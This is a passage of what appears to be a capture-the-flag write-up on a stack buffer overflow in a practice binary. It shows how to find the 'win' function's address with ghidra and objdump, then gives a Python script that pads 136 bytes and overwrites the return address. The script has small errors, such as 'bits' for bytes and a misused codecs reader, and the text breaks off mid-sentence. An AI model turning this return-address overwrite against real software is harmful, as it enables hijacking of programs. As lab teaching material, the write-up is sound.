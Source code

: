 - Adding 4 more bytes replaces the return address. (41414141 is 'AAAA' in hexadecimal)

![29cfb7eb6f35e9c0f47db1c3f65dbff5.png](29cfb7eb6f35e9c0f47db1c3f65dbff5.png){: w="700" .center}

```bash
python3 -c "print(bytes.fromhex('41414141'))"
```

Now all we have to do is find the memory address of the `win` function and add it to our initial 136 Bytes long payload which overflows the binary.  
For that we can either use ghidra or objdump

### ghidra - `win` function's memory address

![357d9789031130b765eeeb405dad41b8.png](357d9789031130b765eeeb405dad41b8.png){: w="700" .center}

### objdump - `win` function's memory address

```bash
objdump -d ./ret | less
/win # 'find' function for 'less'
```

![472a350e40f5c330312c0b0aa17c5326.png](472a350e40f5c330312c0b0aa17c5326.png){: w="400" .center}

Now we can write a quick exploit to replace the return address to `00400646`  
Here is the exploit that I came up with

```python
import sys
import codecs

# The memory address of the function that we want to execute = 00400646 in hexadecimal
# [::-1] reverses the address (little-endian)
win_function_mem_address = b"\x00\x40\x06\x46"[::-1]

# 136 bits causes segmentation fault
payload = b"A" * 136

# Add the target function's memory address to the payload
payload += win_function_mem_address

# Use sys to make sure python properly outputs byte-strings
ascii_stdout = codecs.getreader("ascii")(sys.stdout, errors="strict")

ascii_stdout.write(payload)
```

- After trying this exploit locally it wasn't really working
- So I decided to just get it onto the target machine and try it there
- That's when I was reminded that python3 is not installed in the container
- Initially I wrote this exploit with python3 in mind which you can simply use the following to output the payload in the write format:
